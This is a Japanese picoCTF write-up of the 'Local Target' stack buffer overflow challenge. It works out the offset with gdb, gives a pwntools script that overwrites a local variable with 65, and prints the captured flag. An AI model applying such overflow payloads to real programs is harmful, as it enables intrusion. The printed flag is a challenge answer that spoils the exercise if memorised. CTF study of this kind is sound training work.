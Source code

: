 # Local Target:Binary Exploitation

Smash the stack\
Can you overflow the buffer and modify the other local variable? The program is available [here](). You can view source [here](). And connect with it using: `nc saturn.picoctf.net 60800`

# Solution

とりあえず、`nc saturn.picoctf.net 60800`を実行してみる。
```
$ nc saturn.picoctf.net 60800
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

num is 1633771873
Bye!
```
1633771873=0x61616161なので、aが4文字分出力されている。
ソースコードを見てみる。
```c
if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }
```
出力される数字が65であれば良いようだ。
```c
int num = 64;
```
とあり、逆アセンブルの結果、このnumは
```
0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
```
rbp-0x8にあるようだ。バッファオーバーフローさせてrbp-0x8を65=0x41に書き換える。
main+68にブレイクポイントを設定してバッファオーバーフローさせたときのrbpを見てみる。
```
(gdb) break *main+68
Breakpoint 1 at 0x40127a
(gdb) r
Starting program: /home/colza-picoctf/local-target 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter a string: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x000000000040127a in main ()
(gdb) x/100bx $rbp-0x8
0x7fff61eb63e8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f0: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb63f8: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6400: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fff61eb6408: 0x00    0x12    0x40    0x00    0x00    0x00    0x00    0x00
```
aが32文字分ある。56文字入力したので`24文字+65`を入力すれば良さそう。
以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 60800)

payload = b"a"*24
payload += p64(0x00000041)

p.sendline(payload)

p.interactive()
```
実行してみる。
```
Enter a string: 
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```
フラグが得られた。

`picoCTF{l0c4l5_1n_5c0p3_ee58441a}`
